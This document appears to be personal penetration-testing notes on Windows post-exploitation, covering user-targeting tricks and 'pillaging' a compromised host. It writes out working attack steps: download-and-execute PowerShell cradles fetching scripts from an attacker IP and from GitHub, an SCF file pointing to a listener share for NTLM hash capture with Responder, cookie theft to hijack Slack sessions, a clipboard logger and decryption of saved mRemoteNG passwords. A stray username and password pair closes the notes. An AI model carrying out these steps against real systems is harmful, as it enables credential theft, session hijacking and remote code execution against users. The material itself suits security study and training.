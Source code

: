 Interacting with users:
 Wire shark installed?
		Capture credentials
		[net-creds](https://github.com/DanMcInerney/net-creds) to sniff passwords and hashes from a pcap
	Monitoring for Process command lines
		Create a powershell script:
				```While($true){			
				  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
				  Start-Sleep 1
				  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
				  Compare-Object -ReferenceObject $process -DifferenceObject $process2
					}```
			Host the script on the attacking machine and execute on target machine:
				`IEX (iwr 'http://10.10.10.205/procmon.ps1')`
	Shell Command File (SCF)
		Used by windows explorer to move up and down directories
		Can be manipulated to have the icon file location point to a specific UNC path. 
			Change the Icon file to an SMB session and run [Responder](https://github.com/lgandx/Responder), may be able to captire NTLM hashes.   
		Example:
			Make a file with '@' at the start and extension `.scf`, the @ makes sure windows see its straight away i.e `@test.scf`
				```[Shell]
				Command=2
				IconFile=\\<listener ip>\share\legit.ico
				[Taskbar]
				Command=ToggleDesktop```
			Start Responder 
					`sudo responder -wrf -v -I <tun0>`
			Crack the passwords
	Malicous .ink File
		Doesn't work on Server 2019 hosts.
		[Lnkbomb](https://github.com/dievus/lnkbomb) to create a .ink file
Pillaging 
	Obtaining information from a compromised system
	Identify Common Applications
		Program Files + (x86)
	 List Installed Programs
		 `$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* `
		`$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation`
		 `$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize`
		mRemoteNG
			Used to connect systems using RDP, VNC, SSH
			 Connection info and credentials saved to confCons.xml.
				 password is mR3m
			`ls C:\Users\julio\AppData\Roaming\mRemoteNG`	
			Decrypt password using [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)
				`python 3 mremoteg_decrypt.py -s <password> -p <custom password>`
				Run a for loop with a word list on it.
	Cookie Abuse to get access to Instant messengers.
		[Slack Abuse](https://posts.specterops.io/abusing-slack-for-offensive-operations-2343237b9282)
		Firefox
			Copy Firefox cookies
				`copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .`
			[Cookie Extractor](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py)
				`python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
			Use a [cookie editor extension](https://cookie-editor.cgagnier.ca/)
		Chromium 
			[Invoke-SharpChromium](https://github.com/djhohnstein/SharpChromium)
				`IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
				`Invoke-SharpChromium -Command "cookies slack.com"
	Monitor Clipboard 
		`IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
		`Invoke-ClipboardLogger`
	
	
	
	/u:jeff /p:Webmaster001!